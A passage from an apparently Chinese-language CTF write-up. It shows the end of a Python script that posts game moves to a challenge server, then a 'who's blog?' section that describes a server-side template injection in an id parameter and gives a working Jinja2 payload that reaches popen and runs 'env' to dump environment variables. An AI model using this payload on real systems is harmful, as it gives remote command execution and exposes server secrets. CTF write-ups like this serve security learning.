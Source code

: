```python
        payload = direct_dict[f"{num[0]}"] + "一个，" + direct_dict[f"{num[1]}"] + "一个"
        print(payload)
    data = {
    "player":'1',
    "direct":payload,
    }
    resp = s.post(url,data=data)
    print(resp.text)
    time.sleep(0.1)
```

![22](/medias/moectf/22.png)

## who's blog?

在首页通过get传参id，可以发现存在ssti模板注入，好像没有过滤，一路直接打过去了

::: v-pre 
`?id={{''.__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('env').read()}}`
:::

